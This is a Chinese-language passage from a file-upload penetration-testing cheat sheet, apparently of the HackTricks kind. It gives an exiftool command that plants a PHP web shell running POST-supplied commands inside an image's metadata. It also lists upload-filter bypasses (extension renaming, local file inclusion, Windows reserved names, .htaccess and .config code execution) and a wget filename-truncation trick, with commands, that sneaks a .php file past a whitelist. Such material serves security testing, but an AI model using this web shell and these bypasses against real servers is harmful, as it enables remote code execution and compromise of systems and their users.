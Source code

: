 例如：
```
exiftool -Comment="<?php echo 'Command:'; if($_POST['cmd']){SYSTEM($_POST['cmd']);} __halt_compiler();?>" 123_php.jpg
```
说明：如果使用bash，可能会过滤到$，这一点可以使用拦截提交的内容进行检查，这时可以在$前加转义字符，例如：
```
exiftool -Comment="<?php echo 'Command:'; if(\$_POST['cmd']){SYSTEM(\$_POST['cmd']);} __halt_compiler();?>" 123_php.jpg
```
这种提交图片的方式，需要后续使用别的方式修改后缀名，例如从 123_php.jpg 改为 123_php.php。



### 别的检查技巧

- 找到某个漏洞，修改已经上传的文件的后缀名。
- 找到一个本地文件包含漏洞，执行这个后门。
#### 可能的信息获取

- 尝试同一时间（并发），使用相同名字，多上传几次同样文件；
- 尝试上传服务器已有文件或已有的文件夹名称的文件；
- 尝试上传含有`. .. ...`等文件路径特殊字符的名称的文件，例如windows apache下，如果某个应用保存上传的文件到`/www/uploads`目录，那么“.”文件名将在"/www/"目录下生成一个名叫“uploads”的文件。
- 尝试上传一个不容易被删除的文件，例如NTFS格式下的“.....jpg”；
- 对windows服务器，尝试上传一个含有无效字符文件名的文件，例如含有`| < > * ?`等。
- 对windows服务器，尝试上传一个使用 reserved（forbidden） 名称的文件.

例如：
```
CON, PRN, AUX, NUL, COM1, COM2, COM3, COM4, COM5, COM6, COM7, COM8, COM9, LPT1, LPT2, LPT3, LPT4, LPT5, LPT6, LPT7, LPT8, and LPT9.
```
- 尝试上传可执行文件（exe）或.html文件（不易被怀疑）等可能在受害人偶然打开时执行代码的文件。

### 特殊扩展名
- 如果你尝试上传文件到PHP服务器，那么可以考虑 [.htaccess 执行代码技巧](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp#code-execution-via-httaccess)

- 如果你尝试上传文件到ASP服务器，可以考虑 [.config执行代码技巧](https://book.hacktricks.xyz/pentesting/pentesting-web/iis-internet-information-services#execute-config-files)

- .inc 扩展名有时可用在php文件import其它文件，有时可能允许这种扩展名文件执行。

### wget 文件上传/SSRF 技巧

有时你可能碰巧遇到一个服务器使用 wget 下载文件，而且你可能指定这个URL。此时，服务器代码可能会检查下载文件的扩展名是否在白名单中。然后这个检查可能被绕过。

Linux中，文件名的最大长度是255字符，而wget truncate 文件名是236字符。 如果你下载一个名为`"A"*232+".php"+".gif"`的文件(这里以*号表示重复字符A 232次)，这个文件名将绕过检查.gif为白名单的检查，但是wget会将其更名为`"A"*232+".php`

```shell
#Create file and HTTP server
echo "SOMETHING" > $(python -c 'print("A"*(236-4)+".php"+".gif")')
python3 -m http.server 9080
```
